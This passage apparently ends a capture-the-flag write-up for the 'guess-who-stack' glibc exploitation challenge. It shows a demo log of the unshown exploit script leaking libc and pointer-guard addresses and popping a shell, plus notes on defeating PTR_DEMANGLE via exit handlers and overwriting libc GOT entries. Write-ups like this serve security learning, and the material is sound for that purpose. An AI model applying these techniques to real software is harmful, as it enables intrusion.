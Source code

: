 Please view [run.py](./run.py).
Demo on remote:
```bash
> python run.py REMOTE
[+] Opening connection to guess-who-stack.harkonnen.b01lersc.tf on port 8443: Done
[*] LEAK: main_ret         = 0x7d32b0098150
[*] CALC: libc             = 0x7d32b0070000
[*] CALC: func_0           = 0x7d32b02701b8
[*] CALC: ptr_guard        = 0x7d32b006d770
[*] CALC: tls_dtor_list    = 0x7d32b006d6f0
[*] LEAK: _start           = 0x5844cd51b100
[*] LEAK: stack_leak       = 0x7ffc75c12670
[*] Switching to interactive mode
$ ls
flag.txt
run
$
```

[exit]: https://elixir.bootlin.com/glibc/glibc-2.38.9000/source/stdlib/exit.c#L139
[run_exit_handlers]: https://elixir.bootlin.com/glibc/glibc-2.38.9000/source/stdlib/exit.c#L36
[ptr_mangle]: https://elixir.bootlin.com/glibc/glibc-2.38.9000/source/sysdeps/unix/sysv/linux/x86_64/pointer_guard.h#L43
[guard]: https://elixir.bootlin.com/glibc/glibc-2.38.9000/source/sysdeps/x86_64/nptl/tls.h#L52
[`__call_tls_dtors`]: https://elixir.bootlin.com/glibc/glibc-2.38.9000/source/stdlib/cxa_thread_atexit_impl.c#L147

## Lessons learned

* How `exit()` works in glibc.
* How to defeat `PTR_DEMANGLE`.
* How to overwrite libc's GOT called in `printf` and `gets` by reading author solution.

### Alternative (simpler) approaches

The challenge author posted their exploit script right after the event ended.
Their solution involves overwriting libc GOT of `__memmove_evex_unaligned_erms`
that is called in `printf` with `gets()`. And overwriting `__memchr_evex` called
in `gets()`.
For more information, please view [run-author.py](./run-author.py).
